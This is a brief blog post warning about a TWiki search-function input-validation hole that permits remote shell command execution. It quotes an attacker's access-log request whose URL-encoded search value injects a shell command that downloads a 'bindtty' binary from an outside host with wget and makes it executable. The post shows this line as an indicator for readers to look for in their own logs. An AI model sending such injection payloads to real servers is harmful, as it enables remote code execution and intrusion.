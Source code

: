 ```yaml
---
tags: programming
layout: post
title: "Security warning with TWiki"
---
```




<a href="http://www.securitytracker.com/alerts/2004/Nov/1012223.html">TWiki Input Validation Hole in Search Function Lets Remote Users Execute Shell Commands</a> - This one got me at the OpenInteract wiki site. How do you know you've been bit? Check your access log for a GET URL like:
<pre class="smallSourceCode">
search/TWiki/?search=doesnotexist1%27%3B+%28wget+http%3A%2F%2Fblank.exitnic.net%2Fbindtty%3B+chmod+777+bindtty...
</pre>
<p>As long as your web server is running as an unprivileged user (like <tt>apache</tt>) you shouldn't be up the creek. It's still goddamned annoying these little bastards make simple things a chore...</p>
 


